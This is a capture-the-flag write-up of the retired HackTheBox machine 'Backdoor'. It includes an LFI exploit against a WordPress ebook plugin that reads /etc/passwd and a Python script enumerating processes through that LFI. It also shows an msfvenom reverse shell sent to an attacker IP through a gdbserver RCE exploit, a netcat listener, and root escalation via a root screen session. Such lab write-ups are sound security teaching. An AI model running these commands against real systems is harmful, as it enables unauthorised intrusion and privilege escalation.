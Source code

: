 Title: HTB: Backdoor
Date: 04-25-2022 15:40
category:security
tags:security, boot2root, HTB, wordpress, lfi, gdbserver, screen
meta:security, boot2root, HTB, wordpress, lfi, gdbserver, screen

<img class="align-left" src="/media/2022.04/backdoor_card.png" alt="Backdoor" width="262">

This is a writeup about a retired HacktheBox machine:
[Backdoor](https://www.hackthebox.com/home/machines/profile/416) publish on
November 20, 2021 by
[hkabubaker17](https://www.hackthebox.com/home/users/profile/79623).
This box is rated as an easy machine. It implies a wordpress plugin, a LFI, a
gdbserver and a screen process.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only three TCP ports are open: 22 (SSH), 80 (HTTP) and 1337 (we don't know what
is running there).

    :::text
    # Nmap 7.92 scan initiated Tue Jan  4 08:45:39 2022 as: nmap -p- -sSV -oN notes.md 10.129.171.210
    Nmap scan report for 10.129.171.210
    Host is up (0.013s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    1337/tcp open  waste?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Tue Jan  4 08:46:11 2022 -- 1 IP address (1 host up) scanned in 31.95 seconds

The HTTP port is a basic WordPress website.

![WordPress homepage](/media/2022.04/backdoor_01.png)

Looking at the installed plugin we found that ebook-download is available:

![ebook-download plugin](/media/2022.04/backdoor_02.png)

This WordPress plugin is [vulnerable to a LFI](https://www.exploit-db.com/exploits/39574)
that we can exploit to retrieve files on the box.

    :::text
    └─$ curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../etc/passwd
    ../../../../../../../../../etc/passwd../../../../../../../../../etc/passwd../../../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    <SNIP>
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    <script>window.close()</script>


We want to find which process is running on port 1337. We write a quick python
script that get the Max PID and list the process by PID.

    :::python
    import requests

    i=0
    r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/sys/kernel/pid_max')
    maxpid= int(r.text[132:-31])
    print(maxpid)

    while i<maxpid:
        r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/'+str(i)+'/cmdline')
        if r.text[102+3*len(str(i)):112+3*len(str(i))]!='<script>wi':
            print(r.text[102+3*len(str(i)):-31])
        i+=1

We finally discover that the 1337 process is a `gdbserver`. We also notice a
`sceen` session running as `root`.

    :::text
    └─$ python3 l.py
    4194304
    /sbin/initautoautomatic-ubiquitynoprompt
    <SNIP>
    /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
    /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done


`gdbserver` is vulnerable to a [RCE](https://www.exploit-db.com/exploits/50539).
We generate the reverse shell, start a listener and launch the exploit. Getting
a shell as `user` allowing use to grab the user flag.

    :::text
    └─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 PrependFork=true -o rev.bin

    ─$ python3 50539 backdoor.htb:1337 rev.bin

    └─$ nc -nlvp 4444

    listening on [any] 4444 ...
    connect to [10.10.14.26] from (UNKNOWN) [10.129.171.210] 42684
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    cat user.txt
    ee34dbf05622446ad1e9f1d35ac6d43e


# Root

We create the `.ssh` directory and put our public SSH key in the
`authorized_keys` file in order to be more comfortable.

Remember that screen process we enumerated before?

`/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done`

We can verify that the session is still running:

    :::text
    user@Backdoor:~$ screen -ls root/root
    There is a suitable screen on:
            3694.root       (01/05/2022 09:38:33 AM)        (Multi, detached)
    1 Socket in /run/screen/S-root.

And we attach it getting the root flag:

    :::text
    user@Backdoor:~$ screen -x root/root

    root@Backdoor:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Backdoor:~# cat root.txt
    dbb5f80464c7d1489b8bba15d280195e

# Wrapping up

A quick an easy box, perfect for me as it has been a while since my last box.


